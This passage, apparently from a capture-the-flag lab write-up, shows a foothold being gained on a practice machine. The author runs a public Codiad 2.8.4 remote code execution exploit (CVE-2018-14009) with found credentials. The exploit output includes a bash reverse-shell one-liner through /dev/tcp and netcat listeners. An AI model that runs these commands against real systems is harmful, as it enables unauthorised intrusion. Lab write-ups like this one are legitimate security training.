 john:password

Now that I have a username and password, I can use one of the scripts provided by searchsploit:

```bash
$ searchsploit -m 49705
  Exploit: Codiad 2.8.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49705
     Path: /opt/exploitdb/exploits/multiple/webapps/49705.py
    Codes: CVE-2018-14009
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /root/49705.py
```

I inspected the script and ran it with the following command:

```bash
$ python3 49705.py http://target.thm:62337/ john password 10.10.170.229 4444 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/<attack_box_ip>/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n] y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
```

The above command wanted me to open two new terminals and run the two commands mentioned. Once I confirmed that I had ran the commands, the terminal that was listening on port 4445 has the reverse shell.

I have a shell. I'm in!

## user.txt

Now that I have a shell, I [stablize the shell](/README.md#stable-shell) and check the home directory for a user.txt file:

```bash
$ ls /home
drac
$ cd /home/drac
$ cat user.txt
cat: user.txt: Permission denied
```

The user.txt is read only by drac:

```bash
$ ls -lh
total 52K
drwxr-xr-x 6 drac drac 4.0K Aug  4  2021 .
drwxr-xr-x 3 root root 4.0K Jun 17  2021 ..
-rw------- 1 drac drac   49 Jun 18  2021 .Xauthority
-rw-r--r-- 1 drac drac   36 Jul 11  2021 .bash_history
-rw-r--r-- 1 drac drac  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 drac drac 3.7K Jul 11  2021 .bashrc
drwx------ 4 drac drac 4.0K Jun 18  2021 .cache
drwxr-x--- 3 drac drac 4.0K Jun 18  2021 .config
drwx------ 4 drac drac 4.0K Jun 18  2021 .gnupg
drwx------ 3 drac drac 4.0K Jun 18  2021 .local
-rw-r--r-- 1 drac drac  807 Apr  4  2018 .profile
```